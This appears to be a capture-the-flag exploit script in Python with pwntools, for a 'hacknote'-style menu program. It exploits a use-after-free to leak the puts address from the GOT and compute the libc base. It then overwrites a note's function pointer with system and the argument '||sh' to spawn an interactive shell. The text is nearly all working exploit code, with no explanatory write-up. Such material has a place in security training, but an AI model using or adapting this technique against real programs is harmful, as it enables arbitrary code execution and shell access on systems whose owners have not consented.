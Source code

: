 ```python

def printnote(idx):
    sh.recvuntil('Your choice :')
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(idx))

def delnote(idx):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(idx))

addnote(0x20,'aaaaaaaa') #idx0
addnote(0x20,'aaaaaaaa') #idx1

delnote(0)
delnote(1)
puts_got=elf.got['puts']
fun=0x0804862B
addnote(0x8,p32(fun)+p32(puts_got)) 
printnote(0)
puts_adr=u32(sh.recv(4))

print 'puts_adr: '+hex(puts_adr)
libc_base=puts_adr-libc.symbols['puts']
print 'libc_base: '+hex(libc_base)

system_adr=libc_base+libc.symbols['system']
delnote(2)
payload=p32(system_adr)+'||sh'
addnote(0x8,payload)
printnote(0)
sh.interactive()
```

